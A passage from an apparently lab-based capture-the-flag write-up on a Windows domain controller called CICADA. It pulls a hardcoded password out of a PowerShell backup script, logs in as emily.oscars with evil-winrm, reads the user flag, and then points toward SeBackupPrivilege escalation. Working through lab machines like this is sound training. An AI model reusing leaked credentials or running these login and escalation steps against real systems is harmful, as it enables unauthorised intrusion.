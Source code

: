 The script contains this code:

```
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

emily's credentials: `emily.oscars:Q!3@Lp#M6b*7t*Vt`

### User.flag

Log into DC as emily.oscars account.

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

Get the user flag.

```
cd "C:\Users\emily.oscars.CICADA\Desktop"
more user.txt
```

## Privilege Escalation

Check emily's privileges

```
whoami /priv
```

<figure><img src="../../../.gitbook/assets/image (186).png" alt=""><figcaption></figcaption></figure>

### Exploit SeBackupPrivilege

[#sebackupprivilege](../../../pt/executive-pt/post-exploitation/windows-post-exploitation/windows-privilege-escalation/whoami-priv.md#sebackupprivilege "mention")
